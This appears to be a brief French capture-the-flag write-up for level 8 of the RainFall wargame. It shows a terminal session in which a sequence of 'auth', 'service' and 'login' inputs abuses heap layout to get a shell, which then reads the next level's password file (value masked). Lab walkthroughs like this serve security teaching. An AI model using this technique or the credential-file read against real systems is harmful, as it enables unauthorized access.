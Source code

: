 # Level 8

Nous avons un progamme qui nous demande de nous connecter en utilisant un enchainement de commandes.

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth <---- Attention a rajouter un espace "auth "
0x804a008, (nil)
service
0x804a008, 0x804a018
login
Password:
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ cat /home/user/level9/.pass
XXXXXX
```
